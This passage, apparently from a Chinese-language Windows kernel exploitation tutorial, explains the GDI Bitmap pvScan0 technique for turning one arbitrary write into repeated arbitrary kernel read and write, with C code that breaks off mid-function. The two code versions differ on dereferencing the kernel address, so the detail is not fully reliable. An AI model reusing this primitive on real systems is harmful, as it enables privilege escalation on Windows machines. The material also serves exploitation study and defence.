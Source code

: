 
&ensp;&ensp;&ensp;&ensp;`pKernelAddress = PEB.GdiSharedHandleTable + (handle & 0xffff) * sizeof(GDICELL64)`

6. pKernelAddress 指向 BASEOBJECT ，SURFOBJ 在偏移 0x18 处，`SURFOBJ = BASEOBJECT  + 0x18`

7. pvScan0 在 SURFOBJ 0x38 偏移处，`pvScan0 = SURFOBJ + 0x38`

整体代码为：

```C
DWORD64 tebAddr = NtCurrentTeb();

DWORD64 pebAddr = *(PDWORD64)((PUCHAR)tebAddr + 0x60);

DWORD64 gdiSharedHandleTableAddr = *(PDWORD64)((PUCHAR)pebAddr + 0xf8);

DWORD64 pKernelAddress = gdiSharedHandleTableAddr  + ((DWORD64) hBitmap & 0xffff) * 0x18;

DWORD64 surfObj = *(PDWORD64)pKernelAddress +0x18;

DWORD64 pvScan0Addr = surfObj + 0x38;
```


#### 整体利用思路

1. CreateBitmap 创建两个 Bitmap，获得两个句柄 hManager 和 hWorker

2. 获取 hManager 和 hWorker 的 pvScan0 地址

3. 利用一次任意地址写的能力，使 hManager 的 pvScan0 的值为 hWorker 的 pvScan0 的地址，即 *hManager_pvScan0 = hWorker_pvScan0

4. 任意写（完成向 0x1234 地址写入 0xAAAA）：

&ensp;&ensp;&ensp;&ensp;- 利用 SetBitmapBits 向 hManager_pvScan0 指向的地址写入 0x1234

&ensp;&ensp;&ensp;&ensp;- 利用 SetBitmapBits 向 hWorker_pvScan0 指向的地址写入 0xAAAA

5. 任意读（完成读取 0x1234 地址的值）

&ensp;&ensp;&ensp;&ensp;- 利用 SetBitmapBits 向 hManager_pvScan0 指向的地址写入 0x1234

&ensp;&ensp;&ensp;&ensp;- 利用 GetBitmapBits 读取 hManager_pvScan0 指向的地址的值

代码如下：

```C
#include <stdio.h>
#include <Windows.h>

DWORD64 GetpvScan0Addr(HBITMAP hBitmap)
{
  DWORD64 tebAddr = NtCurrentTeb();
  DWORD64 pebAddr = *(PDWORD64)((PUCHAR)tebAddr + 0x60);
  DWORD64 gdiSharedHandleTableAddr = *(PDWORD64)((PUCHAR)pebAddr + 0xf8);
  DWORD64 pKernelAddress = gdiSharedHandleTableAddr + ((DWORD64)hBitmap & 0xffff) * 0x18;
  DWORD64 surfObj = pKernelAddress + 0x18;
  DWORD64 pvScan0Addr = surfObj + 0x38;
  return pvScan0Addr;
}

VOID ReadOOB(HBITMAP hManager,HBITMAP hWorker,DWORD64 writeAddr, LPVOID readValue, int len)
{
  SetBitmapBits(hManager,len,&writeAddr);
  GetBitmapBits(hWorker, len, readValue);
}

VOID WriteOOB(HBITMAP hManager, HBITMAP hWorker, DWORD64 writeAddr, LPVOID writeValue, int len)
{
  SetBitmapBits(hManager, len, &writeAddr);
```